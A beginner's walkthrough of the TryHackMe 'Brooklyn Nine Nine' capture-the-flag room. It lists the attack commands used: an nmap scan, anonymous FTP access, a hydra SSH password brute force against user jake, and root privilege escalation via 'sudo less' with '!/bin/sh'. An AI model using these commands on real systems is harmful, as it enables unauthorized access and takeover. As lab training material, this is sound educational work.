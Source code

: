 # TryHackMe : Brooklyn Nine Nine CTF Walkthrough

![Brooklyn](Images/brooklyn.png)

</br>

So, Hey Guys This is Vikas Anand. This is my first ever CTF Walkthrough.

</br>

This CTF is from TryHackMe ["Brooklyn_Nine_Nine"](https://tryhackme.com/room/brooklynninenine) So join the Room and let's Hack the CTF cheers :)

</br>
First Scan the Machine with Nmap :

`
sudo nmap -sS -A 10.10.233.242
`


![Nmap](Images/nmap.png)

Here We can see 3 Ports Open :

1. 21 - ftp
2. 22 - ssh
3. 80 - http

After Enumerating ftp port we can see that it has anynomous login allowed. We, can simply login it through ftp 

`
ftp 10.10.233.242 21
`

*Name : anonymous*</br>
*pass : anonymous*

![ftp](Images/ftp.png)

We can clearly see we have found a file named "note_to_jake.txt". Get the file in you system using _get_ command.

Now lets find What's inside it :

`cat note_to_jake.txt`

![note_to_jake.txt](Images/note_to_jake.png)

Here we can find there are 3 users :

* Any
* jake
* holt


Where, jake password is weak. Let's Bruteforce jake password using _hydra_ with port ssh open :

` hydra -l jake -P /usr/share/wordlists/rockyou.txt -t 4 ssh://10.10.233.242`

![hydra](Images/hydra.png)

We, Successfully find the jake password. Let's dig into jake account using ssh

`ssh jake@10.10.233.242`

We find 3 users in home directory.

![home](Images/home.png)

After Enumerating we find _user.txt_ flag in holt account.

![user](Images/user.png)

Now we have to go into root account for this we have to esclate our privilages.

![sudo](Images/sudo.png)

We can see _less_ is vulnerable we can go into root using _less_ command.

`sudo less user.txt`

`!/bin/sh`

Successfully We get root ! Now Let's find _root_ flag.

![root](Images/root.png)

Awsoome we find our both the flag .

Thanks for reading the entire Walkthrough.







